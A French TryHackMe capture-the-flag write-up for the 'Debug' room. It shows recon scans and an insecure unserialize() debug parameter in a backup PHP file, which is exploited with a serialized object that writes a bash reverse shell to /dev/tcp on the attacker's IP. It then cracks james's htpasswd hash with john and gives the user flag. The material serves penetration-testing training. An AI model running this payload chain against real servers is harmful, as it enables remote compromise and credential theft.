 # Debug #

## Task 1 Introduction ##
## Task 2 Flags ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.31.149 debug.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A debug.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-17 19:51 CEST
Nmap scan report for debug.thm (10.10.31.149)
Host is up (0.099s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:ee:1e:ba:07:2a:54:69:ff:11:e3:49:d7:db:a9:01 (RSA)
|   256 8b:2a:8f:d8:40:95:33:d5:fa:7a:40:6a:7f:29:e4:03 (ECDSA)
|_  256 65:59:e4:40:2a:c2:d7:05:77:b3:af:60:da:cd:fc:67 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/17%OT=22%CT=1%CU=35273%PV=Y%DS=2%DC=T%G=Y%TM=616C64
OS:88%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=106%TI=Z%II=I%TS=A)SEQ(SP=
OS:107%GCD=1%ISR=106%TI=Z%CI=I%II=I%TS=A)SEQ(SP=106%GCD=1%ISR=106%TI=Z%TS=A
OS:)OPS(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M50
OS:6ST11NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF
OS:)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+
OS:%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
OS:T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%D
OS:F=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=4
OS:0%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   31.61 ms  10.9.0.1
2   107.52 ms debug.thm (10.10.31.149)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 493.26 seconds
```

D'arpès nmap on a deux service.  
Le service SSH sur le port 22.   
Le service HTTP sur le port 80.  

D'après le titre de la page web, c'est la page par défaut de d'Apache.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u debug.thm -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd            (Status: 403) [Size: 274]
/backup               (Status: 301) [Size: 307] [--> http://debug.thm/backup/]
/grid                 (Status: 301) [Size: 305] [--> http://debug.thm/grid/]  
/index.html           (Status: 200) [Size: 11321]                             
/index.php            (Status: 200) [Size: 5732]                              
/javascripts          (Status: 301) [Size: 312] [--> http://debug.thm/javascripts/]
/javascript           (Status: 301) [Size: 311] [--> http://debug.thm/javascript/] 
/server-status        (Status: 403) [Size: 274]        
```

Avec gobuster on trouve un répertoire qui est backup.   

![page](./Task1-01.png)    

Dans le répertoire backup trouve plusieurs fichiers.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://debug.thm/backup/index.php.bak -q
```

On télécharge le fichier index.php.bak   

```php
public function __destruct() {

file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';

}
}

// Leaving this for now... only for debug purposes... do not touch!

$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();

```

Dans le fichier de backup on trouve une fonction dangereuse.  
Elle unserialize un paramètre mis par debug.  
Elle crée un fichier à partir de form_file et met le message dedans.  

```php
tim@kali:~/Bureau/tryhackme/write-up$ cat payload.php 
<?php
class FormSubmit
{
   public $form_file = 'shell.php';
   public $message = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.9.228.66/1234 0>&1\'");';
}
print urlencode(serialize(new FormSubmit));

?>
```

On crée un scripte qui va sérialiser notre charge utile, qui est un reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ php payload.php 
O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A7%3A%22message%22%3Bs%3A70%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.9.228.66%2F1234+0%3E%261%27%22%29%3B%22%3B%7D
```

On génère notre charge utile.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute le port 1234 pour avoir le shell.  

![page](./Task1-02.png)

On envoie notre charge utile dans le paramètre debug de cette façon : http://debug.thm/index.php?debug=chargeutile.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://debug.thm/shell.php
```

On lance notre shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.31.149.
Ncat: Connection from 10.10.31.149:37216.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@osboxes:/var/www/html$ ls -al
ls -al
total 72
drwxr-xr-x 6 www-data www-data  4096 Oct 17 14:29 .
drwxr-xr-x 3 root     root      4096 Mar  9  2021 ..
-rw-r--r-- 1 www-data www-data    44 Mar  9  2021 .htpasswd
drwxr-xr-x 5 www-data www-data  4096 Mar  9  2021 backup
drwxr-xr-x 2 www-data www-data  4096 Mar  9  2021 grid
-rw-r--r-- 1 www-data www-data 11321 Mar  9  2021 index.html
-rw-r--r-- 1 www-data www-data  6399 Mar  9  2021 index.php
drwxr-xr-x 2 www-data www-data  4096 Mar  9  2021 javascripts
drwxr-xr-x 2 www-data www-data  4096 Mar  9  2021 less
-rw-r--r-- 1 www-data www-data   141 Oct 17 14:29 message.txt
-rw-r--r-- 1 www-data www-data  2339 Mar  9  2021 readme.md
-rw-r--r-- 1 www-data www-data    70 Oct 17 14:29 shell.php
-rw-r--r-- 1 www-data www-data 10371 Mar  9  2021 style.css
www-data@osboxes:/var/www/html$ cat .htpasswd
cat .htpasswd
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
```

On liste tous le fichiers.  
On trouve .htpsswd, il y a des identifiants dans le fichier qui sont : james et un mot de passe qui est un hash.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo '$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1' > hash 
tim@kali:~/Bureau/tryhackme/write-up$ echo '$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1' > hash 
tim@kali:~/Bureau/tryhackme/write-up$ john hash -w=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jamaica          (?)
1g 0:00:00:00 DONE (2021-10-17 20:38) 33.33g/s 25600p/s 25600c/s 25600C/s jeffrey..james1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

On décode le hash qui est : jamaica   

```bash
su james
Password: jamaica

james@osboxes:/var/www/html$ cd /home/james 
cd /home/james
james@osboxes:~$ ls
ls
Desktop    Downloads         Music              Pictures  Templates  Videos
Documents  examples.desktop  Note-To-James.txt  Public    user.txt
james@osboxes:~$ cat user.txt	
cat user.txt
7e37c84a66cc40b1c6bf700d08d28c20
```

On se connecte sur le compte james.   
On lit le fichier user.txt dans /home/james.   
Le flag est : 7e37c84a66cc40b1c6bf700d08d28c20   